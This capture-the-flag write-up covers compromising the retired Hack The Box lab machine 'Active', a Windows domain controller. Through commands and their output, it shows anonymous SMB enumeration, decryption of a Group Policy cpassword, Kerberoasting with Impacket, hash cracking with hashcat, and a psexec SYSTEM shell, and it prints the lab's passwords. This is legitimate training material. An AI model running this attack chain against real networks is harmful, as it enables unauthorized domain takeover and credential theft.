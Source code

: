 # Active

This is the write-up for the box Active that got retired at the 8th December 2018.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.100    active.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/active.nmap 10.10.10.100
```

```markdown
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-08-16 08:49:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

These services can often be found on an **Active Directory** domain controller.

## Checking DNS (Port 53)

The hostname of the box could be interesting information:
```markdown
nslookup

server 10.10.10.100
Default server: 10.10.10.100
Address: 10.10.10.100#53

127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.

10.10.10.100
server can't find 100.10.10.10.in-addr.arpa: SERVFAIL
```

Unfortunately it does not give any information about the hostname.

## Checking SMB (Port 445)

It is possible to get the shares of SMB without authentication by using an anonymous authentication:
```markdown
smbclient -L //10.10.10.100
```

After pressing enter without entering a password, it displays the SMB shares:
```markdown
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk      
SYSVOL          Disk      Logon server share
Users           Disk
```

The tool **SMBmap** can also enumerate the permissions without authentication:
```markdown
smbmap -H 10.10.10.100
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             NO ACCESS       Remote IPC
NETLOGON         NO ACCESS       Logon server share
Replication      READ ONLY
SYSVOL           NO ACCESS       Logon server share
Users            NO ACCESS
```

The share _Replication_ has a read-only access, so this should be investigated.
Displaying the contents of the share recursively:
```markdown
smbmap -H 10.10.10.100 -R Replication
```

There is a file called _Groups.xml_ in the directory _"\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\"_, which is a **Group Policy file** where local account information is stored.
```markdown
smbclient //10.10.10.100/Replication

smb: \> get \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

Contents of _Groups.xml_:
```markdown
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

The username is _active.htb\SVC_TGS_ and the password is encrypted, but can be decrypted with **gpp-decrypt**:
```markdown
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

It shows that the decrpyted password is:
> GPPstillStandingStrong2k18

### Enumerating SMB with Authentication

Lets see which shares can be accessed with this user:
```markdown
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             NO ACCESS       Remote IPC
NETLOGON         READ ONLY       Logon server share
Replication      READ ONLY
SYSVOL           READ ONLY       Logon server share
Users            READ ONLY
```

The only interesting thing is _user.txt_ in the _Users_ share.

## Privilege Escalation

With the valid user in the domain, we can look for interesting information in the domain.
The scripts from the [Impacket Framework](https://github.com/SecureAuthCorp/impacket) will be helpful to do this.

For example getting user information on the box:
```markdown
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```
```markdown
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 21:06:40.351723  2018-07-30 19:17:40.656520
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 20:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 22:14:38.402764  2018-07-21 16:01:30.320277
```

To get a foothold of the domain, the tool **Bloodhound** can map the connections between users and their permissions.
As the ingestor binary _Sharphound.exe_ from Bloodhound has to be run on the box, we need to connect to the domain via a Windows client:
```markdown
runas /netonly /user:active.htb\svc_tgs cmd
```

This starts a command shell as the user and allows us to run _Sharphound.exe_ on the domain:
```markdown
.\Sharphound.exe -c all -d active.htb --DomainController 10.10.10.100
```

> NOTE: Configure the DNS server on the interface to 10.10.10.100 or the connection will not work

After it finishes, it creates a _.zip_ file that can be drag&dropped into **Bloodhound** for further analysis.

When using the query called _"Shortest Path from Kerberoastable Users"_ it shows that the user _Administrator[@]active.htb_ is vulnerable to a **Kerberoast attack** which can be done with another script from the **Impacket Framework**:
```markdown
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

This outputs the ticket hash for _Administrator_:
```markdown
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445\*$98484(...)
```

Now it has to be cracked and therefore I will use **Hashcat**:
```markdown
hashcat -m 13100 active.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for _Administrator_ is:
> Ticketmaster1968

These credentials can now be used with _psexec_ to start a session on the box as _NT Authority\SYSTEM_!
```markdown
psexec.py active.htb/Administrator@10.10.10.100
```
